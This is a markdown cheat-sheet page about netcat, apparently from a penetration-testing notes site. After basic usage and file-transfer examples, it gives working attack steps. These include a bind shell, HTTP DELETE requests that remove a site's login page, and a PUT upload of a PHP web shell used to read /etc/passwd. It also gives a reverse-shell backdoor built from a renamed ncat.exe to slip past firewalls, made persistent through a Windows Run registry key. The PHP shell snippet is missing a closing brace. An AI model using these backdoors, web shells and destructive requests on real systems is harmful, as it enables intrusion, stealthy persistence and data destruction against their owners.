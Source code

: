 ```yaml
---
title: netcat
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - http
---
```


# netcat

## Installation

Preinstalled in kali. Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

For windows: [https://nmap.org/ncat/](https://nmap.org/ncat/).

For linux: 

```bash
sudo apt install ncat
```


## Usage

It’s used for HTTP

```bash
nc <IP> <port> -flags
```

### Fingerprinting with netcat

```bash
nc  <IP> 80
HEAD / HTTP/1.0     
# And hit RETURN twice
```

Also, Nmap does not always recognize all information by default. Sometimes you can use netcat to interpelate a service:

```shell-session
 nc -nv <TARGET IP> <PORT NUMBER>
```




## Netcat commands


### As a server

```bash
nc -lvp 8888
#-p: specify a port
#-l: to listening
#-v: verbosity
#-u: enforces udp connection
#-e: executes the given command
```

### As a client

```bash
nc -v <ip> <port>
```


## Transfer data

On the server side:

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```



## Transfer data and save it in a file

On the server side: 

```bash
# Data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
echo “hello” | nc -v <ip> <port>
```

## Transfer file and save it 

On the server side: 

```bash
# Received data will be stored in reveived.txt file.
nc -lvp <port> > received.txt   
```

On the client side:

```bash
cat tobesentfiel.txt | nc -v <ip> <port>
```

## Netcat shell

On the server side:

```bash
nc -lvp <port> -e /bin/bash
```

On the client side:

```bash
nc -v <ip> <port>
```


## Some enumeration techniques for HTTP verbs

```bash
# Send a OPTIONS message with netcat
nc victim.target 80
OPTIONS / HTTP/1.0

```



## Some exploitation techniques for HTTP verbs


### DELETE attack


```bash
# General syntax for removing a resource from server using netcat
nc victim.site 80
DELETE /path/to/resource.txt HTTP/1.0


# Example for removing the login page of a site
nc victim.site 80
DELETE /login.php HTTP/1.0

```

### PUT attack: getting a shell

```bash
# Save for instance a php basic shell in a file (shell.php):

<?php 
if (isset($_GET[‘cmd’]))
{
	$cmd = $_GET[‘cmd’];
	echo ‘<pre>’;
	$result = shell_exec($cmd);
	echo $result;
	echo ‘</pre>’;
?>


# Count the size of the file
wc -m shell.php

# Send with netcat the HTTP verb message
nc victim.site 80
PUT /shell.php HTTP/1.0
Conten-type: text/html
Content-length: [number you got with wc -m payload]
 

# Run the exploit by typing in the browser:
http://victim.site/shell.php?cmd=cat+/etc/passwd
```

## Backdoors with netcat

### The attacker initiates the connection

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
wincofig -l -p <port> -e cmd.exe
# Example: wincofig -l -p 5555 -e cmd.exe
```

**In the attacker machine**:

```
ncat <victim IP address> <port specified>
# Example: ncat 192.168.0.40 5555
```

### The victim initiates the connection

Great to avoid firewalls!!!

**In the victim machine**: If windows, get the ncat.exe executable file, rename it to something else such as winconfig and we write in command line:

```
winconfig -e cmd.exe <attacker IP> <port>
# Example: winconfig -e cmd.exe 192.168.1.40 5555
```
**In the attacker machine**:

```
ncat -l -p <port> -v
# Example: ncat -l -p 5555 -v
```

## Creating a registry in regedit

- In regedit, go to Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
- Right-Button > New > String value
- We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>
- We edit the registry and we add the path to the executable file and some commands  in the Value data:

```
“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”
# For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```
 
